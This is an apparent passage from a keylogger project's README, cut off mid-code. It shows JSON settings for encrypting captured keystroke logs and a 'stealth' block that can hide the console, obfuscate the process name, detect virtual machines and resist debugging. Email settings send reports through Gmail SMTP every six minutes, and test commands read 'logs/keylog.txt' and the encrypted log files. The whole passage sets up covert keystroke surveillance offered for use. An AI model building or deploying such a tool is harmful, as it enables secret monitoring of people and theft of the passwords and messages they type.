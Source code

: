 ```json
{
    "encryption": {
        "enabled": true,
        "algorithm": "Fernet",
        "password": "change-this-secure-password",
        "key_file": "logs/.encryption.key",
        "compress_logs": true
    },
    "stealth": {
        "hide_console": false,           // Set true for stealth mode
        "process_name_obfuscation": false,
        "vm_detection": true,            // Detect virtual machines
        "anti_debug": false
    }
}
```

### **Professional Email Settings**
```json
{
    "email": {
        "enabled": true,
        "smtp_server": "smtp.gmail.com",
        "smtp_port": 587,
        "use_tls": true,
        "sender_email": "your-email@gmail.com",
        "sender_password": "your-app-password",
        "recipient_email": "reports@your-domain.com",
        "send_interval_hours": 0.1       // Send every 6 minutes for testing
    }
}
```

## 🧪 **Testing & Validation**

### **Component Testing**
```bash
# Test core components
python main.py --test

# Test configuration loading
python -c "from src.managers.config_manager import ConfigManager; print('✅ Config OK')"

# Test encryption
python -c "from src.managers.log_manager import LogManager; print('✅ Encryption OK')"

# Test email functionality
python development/tools/test_direct_email.py
```

### **Development & Debugging**
```bash
# Debug mode with verbose output
python main.py --debug

# Monitor logs in real-time
tail -f logs/keylog.txt

# Check encrypted logs
python -c "
from src.managers.log_manager import LogManager
lm = LogManager()
with open('logs/keylog.enc', 'r') as f:
```